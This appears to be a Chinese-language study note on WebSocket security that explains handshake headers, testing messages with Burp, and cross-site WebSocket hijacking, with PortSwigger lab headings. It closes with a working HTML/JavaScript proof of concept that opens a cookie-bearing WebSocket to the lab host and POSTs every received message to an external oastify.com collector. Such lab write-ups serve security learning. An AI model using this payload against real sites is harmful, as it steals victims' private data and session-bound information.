


### 介绍

* 什么是websocket：通过HTTP协议发起的一个双向全双工的通信协议。WebSocket协议被广泛用在现代WEB程序中用于数据流的传输和异步通信。
* websocket是由http请求发起建立的，建立连接后，双方均可主动发送消息，且不用遵循类似http一个请求对应一个响应的通信方式

### websocket连接的建立过程

通过js发起连接，wss是TLS加密的，ws是没有加密的，类似于https和http的关系

```java
var ws = new WebSocket("wss://normal-website.com/chat");
```

* 首先通过http建立连接，图示中标出了建立连接所使用的首部，和成功建立连接的响应
  * `Connection`和`Upgrade`头部用来标识这是一个WebSocket握手消息。
  * `Sec-WebSocket-Version`请求头明确了一个客户端希望使用的WebSocket协议版本。版本`13`最常用。
  * `Sec-WebSocket-Key`请求头包含了一个base64编码的随机值，在每个WebSocket握手请求中，它是随机生成的，**并不用做身份验证**。
  * `Sec-WebSocket-Accept`响应头的值是客户端发送的握手请求中`Sec-WebSocket-key`的哈希值，并与协议规范中定义的特定字符串连接。这样做的目的是匹配每一对握手请求，防止由于错误的配置或者缓存代理导致的连接错误。



后续的报文，burp中没有显示二进制的首部。websocket建立连接后可以发送任意格式的信息，但是常常为json



### 恶意操作websocket报文

实际上，几乎所有的Web漏洞都有可能出现在WebSocket中。因为，WebSocket本质上就是一个通过HTTP建立连接的双向全双工的通信协议而已，但由于其相比HTTP多了一“工”的特性，可能会出现一些新的攻击场景。

对于websocket的测试与常见的通过http报文的测试无异，无非是更改其报文的内容尝试进行攻击。和http报文一样，可以借助burp的proxy模块拦截和查看其历史记录，通过repeater模块重放等。

### 跨站WebSockets攻击

发起websocket连接是没有跨域限制的，而且并不限制js读取返回的数据，所以我们利用websocket发起类似于csrf的攻击

### portswigger靶场

#### Lab: Manipulating WebSocket messages to exploit vulnerabilities

#### Lab: Cross-site WebSocket hijacking

```html
<html>
<script>
// Create WebSocket connection.
// 会携带同源cookie
var ws = new WebSocket("wss://0a1300e804b8a30880115d9500110087.web-security-academy.net/chat");

// Connection opened
ws.addEventListener('open', function (event) {
    ws.send('READY');
});

// Listen for messages
// fetch可以发起跨域的no-cors请求，但不能携带cookie，不能获取返回数据
ws.onmessage = function(event) {
  fetch('https://qxrcgx2qo9vhsvdclvu2pb5j1a72vsjh.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data})
};
</script>
</html>
```

#### 